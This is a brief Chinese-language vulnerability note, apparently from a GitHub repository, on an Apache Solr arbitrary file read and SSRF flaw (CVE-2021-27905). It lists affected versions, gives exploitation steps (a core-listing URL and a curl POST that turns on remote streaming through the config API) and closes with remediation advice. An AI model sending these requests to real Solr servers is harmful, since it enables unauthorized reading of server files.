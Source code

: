 ### 一 漏洞描述
solr任意文件读取(CVE-2021-27905)

在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

Apache Solr <= 8.8.1

### 二 漏洞利用
step1:  
http://192.168.31.96:8983/solr/admin/cores?indexInfo=false&wt=json
获取 core

step2:  
```angular2html
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://192.168.31.96:8983/solr/demo/config'
```

### 三 漏洞修复
1 关闭ConfigAPI：在bin目录下的solr.in.cmd中加入一行set SOLR_OPTS=%SOLR_OPTS% -Ddisable.configEdit=true；然后关闭远程读取文件流，默认不开启
2 增加访问控制口令
